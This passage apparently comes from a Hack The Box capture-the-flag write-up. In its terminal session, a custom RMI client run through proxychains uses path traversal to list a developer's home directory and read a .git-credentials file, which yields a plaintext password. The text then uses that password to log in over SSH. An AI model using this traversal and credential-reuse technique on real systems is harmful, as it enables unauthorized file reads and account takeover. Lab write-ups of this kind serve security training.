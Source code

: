 ```
$ proxychains java com/htb/hosting/rmi/RMIClientWrapper "/../../home/developer/" "/../../home/developer/.git-credentials" 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Jul 29, 2023 8:06:27 PM com.htb.hosting.rmi.RMIClientWrapper get
INFO: Connecting to registry.webhosting.htb:9002
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  127.0.0.1:9002  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  127.0.0.1:41669  ...  OK
/home
/home/developer/.cache
/home/developer/.bash_logout
/home/developer/.bashrc
/home/developer/.bash_history
/home/developer/.git-credentials
/home/developer/user.txt
/home/developer/.gnupg
/home/developer/.profile
/home/developer/.vimrc

Reading content:
Jul 29, 2023 8:06:27 PM com.htb.hosting.rmi.RMIClientWrapper get
INFO: Connecting to registry.webhosting.htb:9002
https://irogir:qybWiMTRg0sIHz4beSTUzrVIl7t3YsCj9@github.com
```

With that password, we can `ssh` in as the `developer` user:

<figure><img src="../../.gitbook/assets/image (4117).png" alt=""><figcaption></figcaption></figure>

